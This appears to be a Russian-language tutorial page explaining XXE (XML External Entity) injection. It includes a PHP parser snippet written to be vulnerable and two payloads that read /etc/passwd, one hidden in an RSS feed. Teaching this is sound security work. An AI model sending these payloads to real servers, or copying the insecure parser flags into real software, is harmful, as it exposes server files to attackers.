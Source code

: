 # XML External Entity (XXE)

XXE ( XML External Entity ) -  внедрение внешних вредоносных XML сущностей во входные данные, которые обрабатываются приложением. Уязвимость появляется при условии если приложение принимает XML файл или тело XML файла из пользовательского ввода и после этого обрабатываеться XML парсером. Специально созданная полезная нагрузка XML, отправленная на XML-парсер сервера, может привести к компрометации файлов в файловой структуре этого сервера. 

Внешние сущности XML - это ссылки на внешние ресурсы или сущности, которые могут быть определены в отдельных документах и затем использованы в других местах.

Пример -> Внешние сущности XML
```XML
<!DOCTYPE example [
  <!ENTITY name "Дэл Спунер">
]>
<user>
  <name>&name;</name>
  <age>30</age>
</user>

```

После обработки XML-документа в теге `<name>` будет "Дэл Спунер"

XXE часто используется для компрометации файлов, таких как `etc/passwd`, который содержит базовую информацию о пользователях на системе Unix.

![SVG](diagrams/XXE.svg)

Пример `->`

```PHP
<?php
	libxml_disable_entity_loader (false);
	$xmlfile = file_get_contents("php://input");
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);
	$foo = $text->foo;
	echo "foo = $foo";
?> 
```

__Payload__
```XML
<!DOCTYPE example [
  <!ENTITY readfile SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&readfile;</name>
  <age>30</age>
</user>
```

__Payload__
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>Удаленка - это свобода</title>
    <link>http://schastie.com/</link>
    <description>Но не точно</description>
    <lastBuildDate>Mon, 03 Feb 2201 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>http://schastie.com</link>
        <description>Возможно</description>
        <author>author@genshin.com</author>
        <pubDate>Mon, 03 Feb 2201 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

#CWE-611
#CWE-776
